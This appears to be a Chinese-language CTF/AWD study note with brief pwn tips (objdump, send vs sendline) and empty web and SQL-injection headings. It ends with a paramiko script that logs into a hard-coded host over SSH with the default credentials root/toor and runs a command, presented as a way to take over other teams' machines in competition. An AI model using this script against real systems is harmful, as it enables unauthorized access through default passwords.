 先用which python找到当前环境下的python路径

```shell
#python环境不同用的libc也不一样
path/to/python path/to/ece/file#执行文件路径
```

#### 4.objdump

```python
objdump -h ./binary #查看文件对应段的情况
```

##### 5.sendline和send的使用时间要注意





# web

## 基础知识：



## 十大漏洞：

### SQL注入：



## AWD

### 脚本：

#### 1.默认SSH密码批量反弹shell

官方在给出服务器密码时，很有可能是默认的，需要赶快修改自己的密码并尝试能不能登陆别人的靶机 

```python
#-*- coding:utf-8 -*-
import paramiko

ip = '192.168.1.137'
port = '22'
username = 'root'
passwd = 'toor'
# ssh 用户名 密码 登陆
def ssh_base_pwd(ip,port,username,passwd,cmd='ls'):
    port = int(port)
    ssh = paramiko.SSHClient()

    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    ssh.connect(hostname=ip, port=port, username=username, password=passwd)

    stdin,stdout,stderr = ssh.exec_command(cmd)

    result = stdout.read()
    if not result :
        print("无结果!")
        result = stderr.read()
    ssh.close()
    
    return result.decode()
    
a = ssh_base_pwd(ip,port,username,passwd)
```